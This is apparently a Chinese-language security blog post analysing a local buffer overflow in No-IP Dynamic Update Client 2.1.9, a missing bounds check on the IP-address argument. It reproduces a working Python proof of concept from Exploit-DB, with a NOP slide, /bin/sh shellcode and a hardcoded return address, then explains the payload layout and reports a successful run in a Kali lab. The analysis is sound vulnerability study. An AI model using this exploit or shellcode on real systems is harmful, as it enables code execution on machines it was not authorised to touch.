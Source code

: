 title: No-IP Dynamic Update Client (DUC) 2.1.9 缓冲区溢出分析
date: 2016-03-28 14:31:49
tags: 缓冲区溢出
---
溢出原因：对用户输入的 IP 地址没有进行边界检查，导致本地溢出。[exploit db POC](https://www.exploit-db.com/exploits/25411/)

# I、实验环境
 - 操作系统： kali 3.18.0-kali3-686-pae #1 SMP Debian 3.18.6-1~kali2
 - 调试工具：edb-debugger
 - 应用程序：[No-IP](https://www.exploit-db.com/apps/3b0f5f2ff8637c73ab337be403252a60-noip-duc-linux.tar.gz)
 - 安装教程：[请参考](http://www.noip.com/support/knowledgebase/installing-the-linux-dynamic-update-client-on-ubuntu/)
<font color="red">Tips：</font> 在安装过程中，需要输入 no ip 账号密码，安装之前，请先前往[官网](https://www.noip.com/)注册。

# II、POC
## ① 原POC
```
#!/usr/bin/env python

import os

binary = "./noip-2.1.9-1/binaries/noip2-i686"

shellcode = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"\
            "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"\
            "\x80\xe8\xdc\xff\xff\xff/bin/sh"

nop = "\x90"
nop_slide = 296 - len(shellcode)

# (gdb) print &IPaddress
# $2 = (<data variable, no debug info> *) 0x80573bc
eip_addr = "\xbc\x73\x05\x08"

print "[*] Executing %s ..." % (binary)

os.system("%s -i %s%s%s" % (binary, nop*nop_slide, shellcode, eip_addr))
```

## ② POC 分析
 - os.system("%s -i %s%s%s" % (binary, nop*nop_slide, shellcode, eip_addr))
    执行命令 ./noip-2.1.9-1/binaries/noip2-i686 -i agrs
 - 参数：nop*nop_slide + shellcode + eip_addr
    即 "\x90"*251 + shellcode + eip_addr

## ③运行 POC
在 kali 下直接运行 POC：
![](https://ww3.sinaimg.cn/large/005CA6ZCgw1f2clo5dl0yj30k60850uu.jpg)
说明 shellcode 成功执行。

